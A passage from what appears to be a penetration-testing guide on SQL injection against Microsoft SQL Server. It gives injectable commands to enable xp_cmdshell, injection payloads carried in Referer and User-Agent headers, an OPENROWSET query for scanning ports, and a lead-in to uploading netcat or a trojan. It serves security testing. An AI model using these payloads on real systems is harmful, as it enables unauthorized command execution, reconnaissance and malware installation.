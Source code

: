 This code, written by Antonin Foller (see links at the bottom of the page), creates a new xp\_cmdshell using sp\_oacreate, sp\_oamethod and sp\_oadestroy (as long as they haven't been disabled too, of course). Before using it, we need to delete the first xp\_cmdshell we created (even if it was not working), otherwise the two declarations will collide.\
\
On SQL Server 2005, xp\_cmdshell can be enabled by injecting the following code instead:

    master..sp_configure 'show advanced options',1
    reconfigure
    master..sp_configure 'xp_cmdshell',1
    reconfigure

### Example 6: Referer / User-Agent

The REFERER header set to:

`Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [SQL CODE]--`

Allows the execution of arbitrary SQL Code. The same happens with the User-Agent header set to:

`User-Agent: user_agent', 'some_ip'); [SQL CODE]--`

### Example 7: SQL Server as a port scanner

In SQL Server, one of the most useful (at least for the penetration tester) commands is OPENROWSET, which is used to run a query on another DB Server and retrieve the results. The penetration tester can use this command to scan ports of other machines in the target network, injecting the following query:

    select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--

This query will attempt a connection to the address x.y.w.z on port p. If the port is closed, the following message will be returned:

    SQL Server does not exist or access denied

On the other hand, if the port is open, one of the following errors will be returned:

    General network error. Check your network documentation

    OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.

Of course, the error message is not always available. If that is the case, we can use the response time to understand what is going on: with a closed port, the timeout (5 seconds in this example) will be consumed, whereas an open port will return the result right away.

Keep in mind that OPENROWSET is enabled by default in SQL Server 2000 but disabled in SQL Server 2005.

### Example 8: Upload of executables

Once we can use xp\_cmdshell (either the native one or a custom one), we can easily upload executables on the target DB Server. A very common choice is netcat.exe, but any trojan will be useful here. If the target is allowed to start FTP connections to the tester's machine, all that is needed is to inject the following queries:
